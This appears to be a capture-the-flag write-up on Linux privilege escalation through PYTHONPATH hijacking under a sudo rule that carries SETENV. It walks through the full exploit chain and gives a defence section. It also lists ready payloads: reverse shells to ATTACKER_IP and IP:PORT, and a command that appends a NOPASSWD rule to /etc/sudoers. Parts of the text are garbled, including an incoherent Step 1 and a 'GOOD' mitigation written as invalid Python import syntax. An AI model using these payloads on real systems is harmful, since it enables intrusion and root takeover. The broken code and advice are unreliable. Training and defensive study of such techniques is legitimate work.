

# Escalate - CyberTalents

**Platform:** CyberTalents  
**Category:** Bash / Linux Privilege Escalation  
**Difficulty:** Easy  
**Points:** 50  
**Date Solved:** March 29, 2026  
**Author:** Heisenberg  

---

## 📋 Challenge Description

"i think we need a new system admin :)"

**Note:**
- Username: `ctf`
- Password: `ctf`

**Challenge Objective:** Gain root access and retrieve the flag from the system.

**Challenge URL:** http://cdcam51xvkdc1z049m2360nlbg301e435ngQkb8z5-web.cybertalentslabs.com

---

## 🎯 Introduction

The **Escalate** challenge is a Linux privilege escalation exercise that tests your ability to:
- Perform system enumeration as a low-privileged user
- Identify misconfigurations in sudo permissions
- Exploit Python path hijacking vulnerabilities
- Escalate from regular user to root access

This challenge simulates a real-world scenario where a system administrator has misconfigured sudo permissions, allowing a Python script to be run with elevated privileges while also permitting manipulation of the Python import path (PYTHONPATH).

**Real-World Context:**  
Python path hijacking is a common privilege escalation vector when:
- Users can run Python scripts with sudo
- PYTHONPATH environment variable is preserved
- Scripts import modules without using absolute paths

---

## 🔍 Initial Reconnaissance

### First Steps: Login and Enumeration


*Challenge description showing credentials*

**Login to the system:**
```bash
# SSH or web terminal login
Username: ctf
Password: ctf
```

**Initial system information:**
```bash
ctf@cdcam51xvkdc1z049m2360nlbg301e435ngQkb8z5-web-579555d8c7-vc75w:~$ whoami
ctf

ctf@cdcam51xvkdc1z049m2360nlbg301e435ngQkb8z5-web-579555d8c7-vc75w:~$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
```

**System details:**
```
Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-1102-azure x86_64)

* Documentation:  https://help.ubuntu.com
* Management:     https://landscape.canonical.com
* Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

Last login: Sat Apr  4 08:19:22 Europe 2026 from localhost on pts/0
```

---

## 🚀 Exploitation Process

### Step 1: Attempt to Create Admin User (Failed)


*Logged in as ctf user - checking permissions*

**First attempt - try to add a new user:**
```bash
ctf@cdcam51xvkdc1z049m2360nlbg301e435ngQkb8z5-web-579555d8c7-vc75w:~$ cat /opt/cool.py
import pyfiglet

user_name = input("> Enter your name to be c00l:")
print(pyfiglet.figlet_format(user_name))
```

**Attempting to run sudo commands:**
```bash
# Try to run Python script that requires admin
cat: /opt/cool.py: Permission denied (initially)

# Error when trying sudo python3 without proper configuration
-bash: syntax error near unexpected token '$'\342\200\230\200\231\234\200\234/bin/bash\342\200\231$'
```

**Result:** ❌ Direct user creation failed - need different approach

**Analysis:** We cannot directly create users or gain root through simple means. Need to find a privilege escalation vector.

---

### Step 2: SUID Binary Enumeration


*Finding SUID binaries on the system*

**Search for SUID binaries:**
```bash
find / -perm -u=s -type f 2>/dev/null
```

**Results:**
```
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chfn
/usr/bin/umount
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/sudo  ← Important!
```

**Key Finding:** `/usr/bin/sudo` has SUID bit set

**Verification:**
```bash
ls -l /usr/bin/sudo
```

**Output:**
```
-rwsr-xr-x 1 root root 232488 Feb 14  2022 /usr/bin/sudo
```

**Analysis:**
- Owned by root
- SUID bit set (the `s` in `-rwsr-xr-x`)
- Any user can execute it with root privileges
- This is normal behavior for sudo, but let's check what we can run

---

### Step 3: Check Sudo Permissions


*Checking what commands we can run with sudo*

**Command:**
```bash
sudo -l
```

**Result:**
```
Matching Defaults entries for ctf on cdcam51xvkdc1z049m2360nlbg301e435ngQkb8z5-web-579555d8c7-vc75w:
    env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin, use_pty

User ctf may run the following commands on cdcam51xvkdc1z049m2360nlbg301e435ngQkb8z5-web-579555d8c7-vc75w:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/cool.py
```

**Critical Findings:**

1. **NOPASSWD** - We can run the command without entering root password
2. **SETENV** - We can set environment variables! This is the KEY vulnerability!
3. **Allowed command:** `/usr/bin/python3 /opt/cool.py`

**Why SETENV is dangerous:**
- `SETENV` allows setting environment variables when running sudo
- `PYTHONPATH` is an environment variable that controls where Python looks for modules
- We can hijack module imports by setting `PYTHONPATH` to a directory we control!

---

### Step 4: Analyze the Python Script


*Examining /opt/cool.py to understand what it imports*

**View the script:**
```bash
cat /opt/cool.py
```

**Contents:**
```python
import pyfiglet

user_name = input("> Enter your name to be c00l:")
print(pyfiglet.figlet_format(user_name))
```

**Analysis:**
1. Script imports `pyfiglet` module
2. Script runs as root when executed with sudo
3. We can create a malicious `pyfiglet.py` in `/tmp/`
4. Set `PYTHONPATH=/tmp` to make Python load our malicious module first
5. Our malicious code executes as root!

**Attack Vector:** Python Path Hijacking

---

### Step 5: Craft the Exploit


*Creating the malicious Python module for privilege escalation*

**Create malicious module:**
```bash
echo 'import os; os.system("/bin/bash")' > /tmp/pyfiglet.py
```

**What this does:**
- Creates a fake `pyfiglet.py` module
- When imported, it immediately spawns a bash shell
- Since the script runs as root, we get a root shell!

**Alternative payloads:**
```python
# Method 1: Direct bash shell (used)
import os; os.system("/bin/bash")

# Method 2: Reverse shell
import os; os.system("nc -e /bin/bash ATTACKER_IP 4444")

# Method 3: Add user to sudoers
import os; os.system("echo 'ctf ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers")

# Method 4: Read flag directly
import os; os.system("cat /root/flag.txt")
```

---

### Step 6: Execute the Exploit


*Executing the privilege escalation exploit*

**Execute with PYTHONPATH:**
```bash
sudo PYTHONPATH=/tmp /usr/bin/python3 /opt/cool.py
```

**What happens:**
1. `sudo` runs the command as root
2. `PYTHONPATH=/tmp` tells Python to look in `/tmp` first for modules
3. Python executes `/opt/cool.py`
4. The script tries `import pyfiglet`
5. Python finds our malicious `/tmp/pyfiglet.py` first
6. Our malicious module executes `os.system("/bin/bash")`
7. **We get a root shell!**

**Verification:**
```bash
root@cdcam51xvkdc1z049m2360nlbg301e435ngQkb8z5-web-579555d8c7-vc75w:/home/ctf# whoami
root
```

**Success!** We now have root access! 🎉

---

### Step 7: Find and Retrieve the Flag


*Locating the flag using find command*

**Search for flag files:**
```bash
find / -name "*flag*" 2>/dev/null
```

**Results:**
```
/proc/sys/kernel/acpi_video_flags
/proc/sys/net/ipv4/fib_notify_on_flag_change
/proc/sys/net/ipv6/fib_notify_on_flag_change
/proc/kpageflags
/root/flag.txt  ← Found it!
/usr/include/linux/kernel-page-flags.h
/usr/include/x86_64-linux-gnu/bits/ss_flags.ph
/usr/include/x86_64-linux-gnu/bits/waitflags.ph
...
```

**Read the flag:**
```bash
cat /root/flag.txt
```

**Flag:**
```
flag{Did_you_know_about_python_library_hijacking_??}
```

---

## 💡 Solution Summary

### Complete Attack Chain

**1. Reconnaissance**
```bash
whoami  # ctf
sudo -l  # Check sudo permissions
```

**2. Identify Vulnerability**
```
User can run: sudo SETENV NOPASSWD /usr/bin/python3 /opt/cool.py
SETENV = Can set environment variables including PYTHONPATH
```

**3. Analyze Target Script**
```bash
cat /opt/cool.py  # Imports pyfiglet module
```

**4. Create Malicious Module**
```bash
echo 'import os; os.system("/bin/bash")' > /tmp/pyfiglet.py
```

**5. Execute Exploit**
```bash
sudo PYTHONPATH=/tmp /usr/bin/python3 /opt/cool.py
```

**6. Retrieve Flag**
```bash
whoami  # root
cat /root/flag.txt
```

### Flag
```
flag{Did_you_know_about_python_library_hijacking_??}
```

---

## 📖 Key Learnings

### Technical Concepts

**Python Path Hijacking:**
- Python searches for modules in directories specified by `PYTHONPATH`
- If `PYTHONPATH` includes a user-writable directory, attackers can place malicious modules
- Python loads the first matching module it finds
- When combined with sudo, this leads to privilege escalation

**How Python Module Import Works:**
```python
# Python searches in this order:
1. Current directory
2. PYTHONPATH directories
3. Standard library directories
4. Site-packages directories

# If PYTHONPATH=/tmp and we import pyfiglet:
# Python looks in:
# 1. /tmp/pyfiglet.py  ← Our malicious module!
# 2. /usr/lib/python3/dist-packages/pyfiglet.py  ← Legitimate module
```

**SETENV in sudo:**
- `SETENV` tag allows users to set environment variables
- Normally, sudo strips environment variables for security
- With `SETENV`, we can preserve or set variables like `PYTHONPATH`
- This is extremely dangerous when combined with Python/Perl/Ruby scripts

**Sudo Privilege Escalation Vectors:**
1. NOPASSWD - Run commands without password
2. SETENV - Set environment variables
3. Shell escapes - Break out to shell from allowed programs
4. LD_PRELOAD - Library injection
5. Wildcard injection - Exploit wildcards in sudo commands

### Real-World Security Implications

**This vulnerability represents:**

1. **Misconfigured Sudo Permissions**
   - SETENV should rarely be used
   - Allowing Python scripts with SETENV is dangerous
   - CWE-426: Untrusted Search Path

2. **Python Security Best Practices:**
   ```python
   # BAD - Vulnerable to hijacking
   import pyfiglet
   
   # GOOD - Use absolute imports or install in virtual environment
   import sys
   from /usr/lib/python3/dist-packages import pyfiglet
   ```

3. **Sudo Configuration Mistakes:**
   ```
   # DANGEROUS
   user ALL=(root) SETENV: NOPASSWD: /usr/bin/python3 /script.py
   
   # SAFER (but still risky)
   user ALL=(root) NOPASSWD: /usr/bin/python3 /script.py
   
   # BEST - Don't allow arbitrary Python with sudo
   user ALL=(root) NOPASSWD: /opt/specific-hardened-script
   ```

### New Techniques Learned

1. **SUID Binary Enumeration** - Finding binaries with special permissions
2. **Sudo Permission Analysis** - Understanding sudo -l output
3. **Python Path Hijacking** - Exploiting PYTHONPATH for privilege escalation
4. **Environment Variable Exploitation** - Using SETENV for attacks
5. **Module Import Manipulation** - Creating fake Python modules

### Attack Strategy

**For similar privilege escalation challenges:**
1. Always run `sudo -l` to check allowed commands
2. Look for SETENV tag - major red flag
3. Check if allowed scripts import modules
4. Identify writable directories (/tmp, /var/tmp, /dev/shm)
5. Create malicious modules in those directories
6. Execute with manipulated environment variables

---

## 🔄 Alternative Solutions

### Method 1: Read Flag Directly (No Shell)

```bash
# Create module that reads flag
echo 'import os; os.system("cat /root/flag.txt")' > /tmp/pyfiglet.py

# Execute
sudo PYTHONPATH=/tmp /usr/bin/python3 /opt/cool.py
```

**Advantage:** Faster, single command to get flag

---

### Method 2: Add User to Sudoers

```bash
# Create module that modifies sudoers
echo 'import os; os.system("echo \"ctf ALL=(ALL) NOPASSWD:ALL\" >> /etc/sudoers")' > /tmp/pyfiglet.py

# Execute
sudo PYTHONPATH=/tmp /usr/bin/python3 /opt/cool.py

# Now ctf user has full sudo access
sudo su
```

---

### Method 3: Using requests Module (If Imported)

```bash
# If the script imported `requests` instead
echo 'import os; os.system("/bin/bash")' > /tmp/requests.py

sudo PYTHONPATH=/tmp /usr/bin/python3 /opt/cool.py
```

This is what you initially tried in your screenshots!

---

### Method 4: LD_PRELOAD (If Allowed)

```bash
# If LD_PRELOAD was also preserved (not in this challenge)
# Create malicious shared library
gcc -fPIC -shared -o /tmp/exploit.so exploit.c

# Execute
sudo LD_PRELOAD=/tmp/exploit.so /usr/bin/python3 /opt/cool.py
```

---

## 💻 Commands & Scripts Used

### Reconnaissance Commands

```bash
# Check current user
whoami
id

# List sudo permissions
sudo -l

# Find SUID binaries
find / -perm -u=s -type f 2>/dev/null

# Find SGID binaries
find / -perm -g=s -type f 2>/dev/null

# Check file permissions
ls -l /usr/bin/sudo
ls -l /opt/cool.py

# View Python script
cat /opt/cool.py
```

### Exploitation Commands

```bash
# Create malicious module
echo 'import os; os.system("/bin/bash")' > /tmp/pyfiglet.py

# Execute with PYTHONPATH
sudo PYTHONPATH=/tmp /usr/bin/python3 /opt/cool.py

# Verify root access
whoami

# Find flag
find / -name "*flag*" 2>/dev/null

# Read flag
cat /root/flag.txt
```

### Python Hijacking Payloads

```python
# Spawn bash shell
import os; os.system("/bin/bash")

# Spawn sh shell
import os; os.system("/bin/sh")

# Read flag directly
import os; print(open("/root/flag.txt").read())

# Add to sudoers
import os; os.system("echo 'ctf ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers")

# Reverse shell
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])
```

---

## 🎓 Recommendations for Similar Challenges

**When encountering Linux privilege escalation:**

1. **Always enumerate sudo permissions first:**
   ```bash
   sudo -l
   ```

2. **Look for dangerous sudo configurations:**
   - NOPASSWD - Can run without password
   - SETENV - Can set environment variables ⚠️
   - Scripts that import modules
   - Wildcards in commands

3. **Check for SUID/SGID binaries:**
   ```bash
   find / -perm -u=s -type f 2>/dev/null  # SUID
   find / -perm -g=s -type f 2>/dev/null  # SGID
   ```

4. **Identify scripting language exploits:**
   - Python: PYTHONPATH hijacking
   - Perl: PERL5LIB hijacking
   - Ruby: RUBYLIB hijacking
   - Node.js: NODE_PATH hijacking

5. **Test writable directories:**
   ```bash
   /tmp
   /var/tmp
   /dev/shm
   ```

**Red flags to watch for:**

- `SETENV` in sudo -l output
- Python/Perl/Ruby scripts run with sudo
- Scripts that import external modules
- Ability to write to common temp directories
- No path hardening in sudoers

---

## 🛡️ Defense & Mitigation

### How to Prevent Python Path Hijacking

**1. Remove SETENV Tag:**
```bash
# /etc/sudoers
# BAD
user ALL=(root) SETENV: NOPASSWD: /usr/bin/python3 /opt/cool.py

# GOOD
user ALL=(root) NOPASSWD: /usr/bin/python3 /opt/cool.py
```

**2. Use env_reset (Default):**
```bash
# /etc/sudoers
Defaults    env_reset  # Strips dangerous environment variables
```

**3. Explicitly Reset env_keep:**
```bash
# /etc/sudoers
Defaults    env_reset
Defaults    env_keep = "LANG LC_* TZ"  # Only keep safe variables
```

**4. Use Absolute Module Imports:**
```python
# Instead of:
import pyfiglet

# Use:
import sys
sys.path.insert(0, '/usr/lib/python3/dist-packages')
import pyfiglet

# Or use virtual environments
```

**5. Run Python with -I Flag:**
```bash
# Ignores PYTHONPATH and user site-packages
python3 -I /opt/cool.py
```

**6. Use Secure Wrapper:**
```bash
#!/bin/bash
# /opt/safe-wrapper.sh
export PYTHONPATH=""
export PYTHON DONTWRITEBYTECODE=1
/usr/bin/python3 -I /opt/cool.py
```

Then allow wrapper instead:
```
user ALL=(root) NOPASSWD: /opt/safe-wrapper.sh
```

### Secure Sudoers Configuration

```bash
# Principle of least privilege
user ALL=(root) NOPASSWD: /usr/bin/specific-hardened-command arg1 arg2

# Never allow:
user ALL=(ALL) SETENV: NOPASSWD: ALL  # Extremely dangerous!
user ALL=(ALL) NOPASSWD: /usr/bin/python3 *  # Wildcard dangerous
user ALL=(ALL) SETENV: NOPASSWD: /usr/bin/python3 *  # Worst combination
```

---

## 🔗 References & Resources

### Documentation
- [Python sys.path](https://docs.python.org/3/library/sys.html#sys.path)
- [sudo(8) Manual Page](https://linux.die.net/man/8/sudo)
- [sudoers(5) Manual Page](https://linux.die.net/man/5/sudoers)

### Privilege Escalation Guides
- [GTFOBins - Python](https://gtfobins.github.io/gtfobins/python/)
- [PEAS - Privilege Escalation Awesome Scripts](https://github.com/carlospolop/PEASS-ng)
- [Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

### Security Advisories
- [CWE-426: Untrusted Search Path](https://cwe.mitre.org/data/definitions/426.html)
- [CWE-426](https://cwe.mitre.org/data/definitions/426.html)
- [OWASP - Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)

### Tools Used
- `find` - File system search
- `sudo` - Execute commands as another user
- `cat` - View file contents
- Python 3 - Scripting language

---

## 📸 Screenshots

### 1. Challenge Description

*Challenge description with credentials*

### 2. Initial Login

*Logged in as ctf user*

### 3. SUID Enumeration

*Finding SUID binaries*

### 4. Sudo Permission Check

*Discovering SETENV vulnerability*

### 5. Python Script Analysis

*Examining /opt/cool.py*

### 6. Creating Exploit

*Creating malicious pyfiglet.py*

### 7. Root Shell

*Gaining root access*

### 8. Flag Retrieval

*Locating and reading the flag*

---

## 🏷️ Tags

`#privilege-escalation` `#python-hijacking` `#sudo` `#setenv` `#pythonpath` `#linux` `#bash` `#cybertalents` `#easy`

---

**[← Back to Main Index](../../README.md)**
